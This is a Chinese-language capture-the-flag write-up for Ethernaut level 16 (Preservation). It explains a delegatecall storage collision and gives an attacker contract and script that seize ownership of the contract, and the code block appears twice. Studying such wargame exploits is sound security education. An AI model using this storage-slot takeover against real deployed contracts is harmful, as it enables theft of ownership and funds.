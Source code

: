 攻击者合约：
```
contract Attacker {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint256 time) public {
        owner = address(uint160(time));
    }
}
```

攻击脚本：
```
address player = vm.addr(1);
vm.startPrank(player);

level.setFirstTime(uint256(uint160(address(attacker))));

level.setFirstTime(uint256(uint160(address(player))));
```

完整代码见：[这里](ethernaut/test/level16.s.sol)


## level 16
[The Ethernaut level 16](https://ethernaut.openzeppelin.com/level/16)

这一关的目的是解锁获取 Preservation 合约的所有权。

仔细阅读这个合约，发现 `Preservation` 使用了 `delegatecall`。这就很容易发生存储冲突的问题。果不其然，`LibraryContract` 的 `setTime` 函数修改 `storedTime` 变量。该变量在 `LibraryContract` 合约是在 `slot0`。但是由于是 `delegatecall`，真正被修改的是 调用者，即 Preservation 合约的 `slot0`。·

要想成为 owner，可以利用这个漏洞，调用 `setFirstTime` 时 把 `timeZone1Library` 改为攻击者合约。再次调用 `setFirstTime` 时，使用的是攻击者合约的逻辑。可以在攻击者合约部署和 `Preservation` 一样的存储，进而修改 `owner`

攻击者合约：
```
contract Attacker {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint256 time) public {
        owner = address(uint160(time));
    }
}
```

攻击脚本：
```
...
address levelAddr = 0x20FD051bF1d72a491674d9259dc7a155160bdF9d;
Preservation level = Preservation(levelAddr);

Attacker attacker = new Attacker();

// 第一次调用把 timeZone1Library1 改为攻击者地址
level.setFirstTime(uint256(uint160(address(attacker))));

// 第二次调用其实是 delegatecall attacker 的 setTime 函数把 owner 设置为 sender
level.setFirstTime(uint256(uint160(address(sender))));
```
